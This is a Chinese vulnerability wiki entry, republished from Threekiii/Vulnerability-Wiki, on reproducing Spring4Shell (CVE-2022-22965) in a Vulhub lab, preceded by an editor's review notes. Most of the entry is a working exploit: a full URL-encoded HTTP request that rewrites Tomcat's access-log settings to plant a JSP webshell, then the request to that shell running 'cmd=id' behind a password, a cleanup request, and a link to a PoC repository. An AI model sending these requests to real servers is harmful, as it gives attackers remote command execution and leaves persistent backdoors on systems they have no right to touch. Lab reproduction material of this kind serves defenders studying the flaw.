


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验MVC5.3.17，JDK9+、Tomcat传统WAR前提明确但缺完整Framework影响/修复分支

代码与实验材料：完整AccessLogValve配置写JSP、访问及清空pattern，明确改服务配置风险；清空不等于恢复旧配置或删除后门

来源证据范围：Tanzu官方和Lunasec研究，较好

- **操作与副作用边界（1）**：清理不完整且会影响日志；依据：仅清pattern，未恢复directory/suffix/prefix/fileDateFormat或删除tomcatwar.jsp，重启不自动删除落盘后门。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（2）**：缺应用绑定/版本及报文准确性；依据：需要可绑定对象而非任意页面，Host:your-错误；JSP输出newString(b)忽略实际read长度导致结果混杂。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Data Binding 与 JDK 9+ 导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在 JDK 9+ 上运行的 Spring MVC 或 Spring WebFlux 应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以 WAR 部署的形式在 Tomcat 上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub 执行如下命令启动一个 Spring WebMVC 5.3.17 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080/?name=Bob&age=25` 即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的 Tomcat 日志路径与后缀，利用这个方法写入一个 JSP 文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```




然后，访问刚写入的 JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```




注意，需要在利用完成后将 `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 清空，否则每次请求都会写入新的恶意代码在 JSP Webshell 中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞 POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
